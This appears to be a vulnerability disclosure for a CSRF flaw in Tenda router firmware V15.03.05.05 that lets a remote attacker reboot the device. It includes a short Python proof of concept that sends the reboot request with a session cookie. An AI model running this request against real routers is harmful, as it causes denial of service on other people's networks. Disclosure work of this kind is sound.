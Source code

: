 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda A18 V15.03.05.05 has a Cross Site Request Forgery (CSRF) vulnerability located in the `fromSysToolReboot` function. It allows remote attackers to reboot the device and cause denial of service.

![image-20240308165955719](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165955719.png)

![image-20240308170203962](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170203962.png)

## PoC

```python
import requests

url = "http://192.168.84.101/goform/SysToolReboot"

headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'bLanguage=cn; user=; password=yrhsd',
    'Connection': 'close'
}

response = requests.get(url, headers=headers)

print(response.text)
```

![image-20240308165744095](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165744095.png)
